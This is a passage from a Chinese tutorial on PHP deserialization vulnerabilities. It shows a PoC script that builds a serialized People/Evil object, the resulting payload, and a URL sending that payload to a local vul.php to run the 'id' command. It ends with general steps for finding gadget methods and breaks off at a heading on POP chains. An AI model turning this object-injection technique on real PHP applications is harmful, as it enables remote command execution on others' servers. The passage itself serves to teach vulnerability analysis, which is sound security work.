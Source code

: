```php
```

先分析下代码，$_GET\['str'\] 获取 get 参数 str 值，然后传递给 unserialize 进行反序列化操作，这就是导致漏洞的地方。

那么我们该如何利用呢？审查整份代码，发现 Evil 类中的命令执行方法 run()，如果能控制其中的 $cmd 变量就可以实现远程命令执行。在 People 类的 __construct 方法中有属性赋值操作，将 Student 对象赋值给 $type 属性。

同时，在 __destruct 方法中有调用 run() 方法的操作，因此我们可以设法此这些操作关联起来，写出利用代码去生成用来实现命令执行的序列化字符串。

poc.php 利用代码如下：

```php
<?php
  class People {
    private $type;

    function __construct(){
      $this->type = new Evil();
    }
  }
  class Evil {
    var $cmd = 'id';
  }
  $people = new People();
  $str = serialize($people);
  echo $str;
?>
```

运行生成序列化字符串：

```java
$ php poc.php
O:6:"People":1:{s:12:"Peopletype";O:4:"Evil":1:{s:3:"cmd";s:2:"id";}}
```

里面的 "Peopletype" 又被吃掉 \\x00 了，得补回去，然后将上述字符串作为 get 参数 $str 的值发送给 vul.php：

```java
http://127.0.0.1/vul.php?str=O:6:%22People%22:1:{s:12:%22%00People%00type%22;O:4:%22Evil%22:1:{s:3:%22cmd%22;s:2:%22id%22;}}
```

![Lark20210121-180531.png](https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUtSAOq4oAAFC9pGx2M8332.png)  
图 1 成功利用反序列化漏洞执行任意命令

总结下利用思路：

1. 寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方，正如示例中的 Evil 类；

2. 追踪调用第 1 步中方法的其他类方法/函数，正如示例中 People 类方法 __destruct()；

3. 寻找可控制第 1 步方法的参数的其他类方法函数，正如示例中 People 类方法 __construct()；

4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串；

5. 将生成的序列化字符串传递给漏洞参数实现利用。

#### 2.POP 链构造
